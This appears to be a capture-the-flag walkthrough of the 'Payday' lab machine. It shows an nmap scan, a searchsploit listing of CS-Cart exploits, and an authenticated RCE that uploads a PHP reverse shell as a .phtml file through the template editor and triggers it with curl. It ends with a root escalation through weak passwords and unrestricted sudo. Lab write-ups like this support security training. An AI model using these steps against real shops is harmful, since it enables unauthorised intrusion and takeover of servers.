 # Payday

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.39 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 13:42 +08
Nmap scan report for 192.168.157.39
Host is up (0.18s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
993/tcp open  imaps
995/tcp open  pop3
```

### CS-Cart --> RCE

Port 80 was running InternetShop CS-Cart, which looks really vulnerable:

<figure><img src="../../../.gitbook/assets/image (3733).png" alt=""><figcaption></figcaption></figure>

There are loads of exploits for this:

```
$ searchsploit cs-cart
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
CS-Cart - Multiple SQL Injections                          | php/webapps/27030.txt
CS-Cart 1.3.2 - 'index.php' Cross-Site Scripting           | php/webapps/31443.txt
CS-Cart 1.3.3 - 'classes_dir' LFI                          | php/webapps/48890.txt
CS-Cart 1.3.3 - 'classes_dir' Remote File Inclusion        | php/webapps/1872.txt
CS-Cart 1.3.3 - 'install.php' Cross-Site Scripting         | multiple/webapps/14962.txt
CS-Cart 1.3.3 - authenticated RCE                          | php/webapps/48891.txt
CS-Cart 1.3.5 - Authentication Bypass                      | php/webapps/6352.txt
CS-Cart 2.0.0 Beta 3 - 'Product_ID' SQL Injection          | php/webapps/8184.txt
CS-Cart 2.0.5 - 'reward_points.post.php' SQL Injection     | php/webapps/33146.txt
CS-Cart 2.2.1 - 'products.php' SQL Injection               | php/webapps/36093.txt
CS-Cart 4.2.4 - Cross-Site Request Forgery                 | php/webapps/36358.html
CS-Cart 4.3.10 - XML External Entity Injection             | php/webapps/40770.txt
----------------------------------------------------------- ---------------------------------
```

We can take a look at the authenticated RCE, since we can login using `admin:admin`.&#x20;

```
$ cat 48891.txt
get PHP shells from
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
edit IP && PORT
Upload to file manager
change the extension from .php to .phtml
visit http://[victim]/skins/shell.phtml --> Profit. ...! 
```

We can then access `admin.php` with the same credentials:

<figure><img src="../../../.gitbook/assets/image (3466).png" alt=""><figcaption></figcaption></figure>

Head to 'Template Editor' and upload the file that we want.&#x20;

<figure><img src="../../../.gitbook/assets/image (3463).png" alt=""><figcaption></figcaption></figure>

Then, just run this:

```bash
$ curl http://192.168.157.39/skins/rev.phtml
```

And we would get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (3141).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Weak Creds --> Root

We can `su` to the user `patrick` using the password `patrick`. This user can run `sudo` for everything:

```
patrick@payday:/home$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for patrick:
User patrick may run the following commands on this host:
    (ALL) ALL
```

<figure><img src="../../../.gitbook/assets/image (2854).png" alt=""><figcaption></figcaption></figure>
